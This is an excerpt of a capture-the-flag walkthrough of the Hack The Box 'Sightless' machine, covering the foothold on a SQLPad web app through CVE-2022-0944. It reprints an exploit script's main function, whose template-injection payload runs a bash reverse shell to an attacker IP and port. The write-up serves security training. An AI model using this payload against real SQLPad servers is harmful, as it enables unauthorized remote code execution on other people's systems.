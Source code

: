 For us to access this page we add `sqlpad.sightless.htb` to the `/etc/hosts` file.
```bash
sudo nano /etc/hosts

10.10.11.32     sqlpad.sightless.htb

```

Visiting the server 
![](../assets/img/HTB/Easy/sightless/sightless3.png)
`SQLPad` is a web app for **writing and running SQL queries and visualizing the results**.
# Foothold
With the version number of the web app we can search for an exploit if any.  
This [repository](https://github.com/0xRoqeeb/sqlpad-rce-exploit-CVE-2022-0944) contains an exploit script for `CVE-2022-0944` in `SQLPad`, a template injection vulnerability that allows for `Remote Code Execution (RCE)` via the `/api/test-connection` endpoint.  
**Code Review**  
Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. Here is the main function that details contents of the request.
```python
def main():
   
    parser = argparse.ArgumentParser(description="CVE-2022-0944 RCE Exploit")
    parser.add_argument('root_url', help="Root URL of the SQLPad application")
    parser.add_argument('attacker_ip', help="attacker ip")
    parser.add_argument('attacker_port', help="attacker port")
    
    args = parser.parse_args()

    target_url = f"{args.root_url}/api/test-connection"

    payload = f"{{{{ process.mainModule.require('child_process').exec('/bin/bash -c \"bash -i >& /dev/tcp/{args.attacker_ip}/{args.attacker_port} 0>&1\"') }}}}"

    headers = {
        'Content-Type': 'application/json',
        'Accept': 'application/json'
    }
```

